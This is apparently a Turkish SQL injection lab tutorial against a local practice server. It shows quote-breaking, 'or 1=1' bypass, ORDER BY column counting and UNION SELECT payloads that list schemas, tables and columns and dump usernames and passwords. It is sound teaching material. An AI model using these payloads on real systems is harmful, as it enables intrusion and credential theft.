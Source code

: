 **http://192.168.56.101/sqli/example1.php?name=root** şeklinde bir URL imiz var name diye bir paremetre alıyor ve veri tabanında bir sorgu gerçekleştirip çıktıyı ekrana basıyor. Sorguyu az çok tahmin edebiliyoruz `SELECT * FROM users WHERE name = 'root'` şeklinde eğer ben root tan sonra **'** işareti atarsam 1 tane, sorgu `SELECT * FROM users WHERE name= 'root''` şeklinde olacak ve SQL Syntax hatası alacağız buda bize **SQL Injection** zafiyetininin olduğunu gösterir. **SQL Injection** zafiyetinin olmaması için girdiğimiz <u>root' parametresini direkt veri tabanında araması gerekiyor</u> fakat burada **'** işaretini **SQL Sorgusuna ait zannediyor aslında SQL Injection zafiyeti SQL Dilinden kaynaklanıyor**. Şimdi bizde `http://192.168.56.101/sqli/example1.php?name=root' or 1 = 1 %23` şeklinde bir değer girelim ve sorgumuzun ne hale geldiğine bakalım `SELECT * FROM users WHERE name = 'root' or 1 = 1 #'` buradaki %23 **#** anlamına gelmektedir ve SQL dilinde **#** karakteri yorum satırı için kullanılır. Şimdi sorgu veri tabanında root u arayacak ve **True** yada **False** gibi değer döndürecek mesela root diye bir kullanıcı yok False döndü ve biz or (yada) operatörü kullanmıştık eğer **1 = 1 ise True dönecek ve 1 herzaman 1 e eşit olacak Yani False or True gibi bir şey elde ettik or (yada) dediğimiz için 1 tane True değerin olması bütün sonucu True yapar ve çıktıdada bütün verileri görürüz** %23 kullanmamızın sebebi ise en sonda bir **'** işareti kalıyor ve onu yorum satırı haline getiriyoruz **SQL Syntax Error** almamak için bunun yerine `http://192.168.56.101/sqli/example1.php?name=root' or '1' = '1` şeklindede bir veri girelibirdik bu sefer sorgu `SELECT * FROM users WHERE name = 'root' or '1' = '1'` şekline dönecekti ve SQL Syntax Error almayız. Şimdi ise bütün verilere nasıl erişebiliriz ona bakalım.



> http://192.168.56.101/sqli/example1.php?name=root' or 1 = 1 order by 1,2,3,4,5,6 %23

Değerlerini giriyoruz ve çıktı alamıyoruz fakat `http://192.168.56.101/sqli/example1.php?name=root' or 1 = 1 order by 1,2,3,4,5 %23` değerlerini girdiğimizde çıktı alabiliyoruz bu demek oluyorki tabloda 5 column (stün) var demek.



> http://192.168.56.101/sqli/example1.php?name=root' or 1 = 1 union select 1,2,3,4,5 %23

union ile 2 sorguyu birleştiriyoruz ve column ları gelen bütün verilerin en altına ekliyoruz.

> http://192.168.56.101/sqli/example1.php?name=root' or 1 = 1 union select group_concat(schema_name),2,3,4,5 from information_schema.schemata %23

Veri tabanlarını getirir.

> http://192.168.56.101/sqli/example1.php?name=root' or 1 = 1 union select group_concat(table_name),2,3,4,5 from information_schema.tables %23

Bütün tabloları getirir.

> http://192.168.56.101/sqli/example1.php?name=root' or 1 = 1 union select group_concat(table_name),2,3,4,5 from information_schema.tables where table_schema = 'exercises' %23

exercises veri tabanına ait tabloları getirir `table_schema = database()` şeklinde kullanımla o anki kullanılan (seçilmiş olan) veri tabanındaki tabloları getirir.

> http://192.168.56.101/sqli/example1.php?name=root' or 1 = 1 union select group_concat(column_name),2,3,4,5 from information_schema.columns where table_name = 'users' %23

users tablosuna ait columnları getirir.

> http://192.168.56.101/sqli/example1.php?name=root' or 1 = 1 union select group_concat(id,":",name,":",age,":",groupid,":",passwd),2,3,4,5 from users %23

users tablosundan id,name,age,groupid,passwd columnlarındaki verileri getirir. **"Çıktı:** 
**1:admin:10:10:admin,2:root:30:0:admin21,3:user1:5:2:secret,5:user2:2:5:azerty"**
